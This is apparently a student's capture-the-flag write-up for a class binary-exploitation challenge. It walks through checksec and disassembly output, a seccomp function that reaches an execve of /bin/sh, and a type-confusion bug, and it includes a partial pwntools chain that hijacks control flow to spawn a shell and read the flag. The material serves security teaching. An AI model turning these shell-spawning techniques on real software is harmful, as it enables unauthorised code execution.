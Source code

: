 # Bin1:Solution

This binary was modeled after the [type](https://github.com/kourtnee/VR_HW/tree/main/type) challenge from class. 

The binary is compiled with NX, a stack canary and Full RELRO 
```
checksec chal.bin 
[*] '/root/workspace/vuln/midterm/ctfd/ash/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There isn't a 'win' function, however a quick search shows us that /bin/sh is in the binary. 
```
rabin2 -zz chal.bin| grep bin
74  0x00002dce 0x00402dce 7   8    .rodata   ascii   /bin/sh
75  0x00002dd6 0x00402dd6 12  13   .rodata   ascii   /usr/bin/cat
```

Looking for strings in binja:
```
004015ae  int64_t sub_401116(int32_t arg1)

004015b9      void* fsbase
004015b9      int64_t rax = *(fsbase + 0x28)
004015cc      if (arg1 != 1)
00401635          exit(status: 1)
00401635          noreturn
004015d5      void* const var_28 = "/bin/sh"
004015d9      int64_t var_20 = 0
004015f4      execve("/bin/sh", &var_28, 0, &var_28)
00401619      syscall(0x3b, "/usr/bin/cat", &var_28, 0)
00401623      int64_t rax_4 = rax - *(fsbase + 0x28)
0040162c      if (rax == *(fsbase + 0x28))
00401640          return rax_4
0040163a      __stack_chk_fail()
0040163a      noreturn
```

This function calls /bin/sh with execve. So getting here should work to get a shell.

There are a few functions that are important to note, but are sort of irrelevant in the event you never looked at them.

secure    
secure_b    
secure_c    

The main one to consider is:
```
004017e3  int64_t secure(int32_t arg1)

004017ee      void* fsbase
004017ee      int64_t rax = *(fsbase + 0x28)
00401802      int64_t rax_2 = seccomp_init(0x7fff0000)
00401826      seccomp_rule_add(rax_2, 0, 0x3b, 0)
00401846      seccomp_rule_add(rax_2, 0, 1, 0)
00401850      sub_401116(1)
00401870      seccomp_rule_add(rax_2, 0, 0, 0)
00401890      seccomp_rule_add(rax_2, 0x7fff0000, 0x7b, 0)
00401899      if (arg1 != 1)
004018a2          seccomp_release(rax_2)
004018ac      int64_t rax_13 = rax - *(fsbase + 0x28)
004018b5      if (rax == *(fsbase + 0x28))
004018bd          return rax_13
004018b7      __stack_chk_fail()
004018b7      noreturn
```

This function adds seccomp rules, however 0x3b is execve so it's one of the ones allowed by the rules. 

From here most of the exploit developed previously remains the same. The space for guitar is still 16 and the drum is still 32. The difference in size combined with the fact that they are both using the same input for either option makes it possible to use type confusion to exploit the binary.

Using this we can borrow a drum and use it to store values and then mimic the guitar. The display_guitar function checks to see if it's a guitar using the value 31337.

Since the space we need to fill is the same as before, I decided to leave the /bin/sh\0 that previously needed to be written as-is. 

Then instead of a system call, we call secure. Above the function sub_401116 is called inside the secure function, that just so happens to be the function that contains the execve call with /bin/sh.

```
# make it guitar
chain += p64(0x31337)

# call secure
chain += p64(e.sym['secure'])

p.sendline(chain)

# read until end of menu
p.recvuntil(b'>>> ')

# select display name
p.sendline(b'4')

# select instrument 1
p.sendline(b'0')

p.interactive()
```

Sending the exploit got the flag!
```
flag{second_star_t0_th3_right}
```

Thanks Peter Pan.   

Resources:
* Previous challenge from class
* Louie and Ash (both because they helped me with the original and because they both let it slip that the binary was just like the challenge but without access to system)
* Louie also talked about how it was weird that the 'secure' function fell through somehow to the execve call since they weren't next to each other in memory, and that's how I figured out that the 'secure' function called sub_401116.
